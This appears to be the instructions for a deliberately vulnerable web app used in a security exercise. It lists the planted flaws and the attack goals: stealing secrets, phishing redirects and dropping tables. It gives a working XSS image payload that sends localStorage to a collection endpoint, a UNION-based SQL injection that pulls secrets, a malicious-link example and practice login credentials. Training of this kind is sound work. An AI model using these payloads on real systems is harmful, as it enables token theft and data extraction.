 Threats can be implemented:

1. SQL Injection on new user creation
2. Token stealing with violating CSP + XSS Injection
3. There is avatar upload - but user can upload an executable

There is special storage server, which you can use for temporary data containment: http://localhost:8080/side-service/ANYID. 
don't forget to change ID to any unique. You can store a string value by POST request and GET it after. This is in-memory storage, so may be wiped any second


Target is to do:

1. Steal any user's secret
2. Redirect users to the fishing site (use sap.com for example)
3. Drop Table
4. Steal all secrets

examples: XSS with IMG

Put it into the name field and login to another user - 
<img onerror="fetch(`http://localhost:8080/side-service/example`, {method: `POST`, body: localStorage.getItem(`me`)}).then(asd=>asd.toJson().then(res=>console.log(res)))" src="" />
stolen result will be visible at 
http://localhost:8080/side-service/example

example SQL Injection: %' UNION SELECT id, secret as name, null FROM users --
Linking to malicious site: <a href="http://malicious.com" target="_blank">Jack Black</a> instead of name

Credentials to distribute:

Username: Grace Lee, password: Y1z2A3b4C5_
Username: Hank Green, password: D6e7F8g9H0+
Username: Ivy White, password: I1j2K3l4M5=
Username: Jack Black, password: N6o7P8q9R0{
Username: Karen Scott, password: S1t2U3v4W5}
Username: Leo King, password: X6y7Z8a9B0[
Username: Mia Clark, password: C1d2E3f4G5]

TODO:
1. Add an app to demonstrate XSS
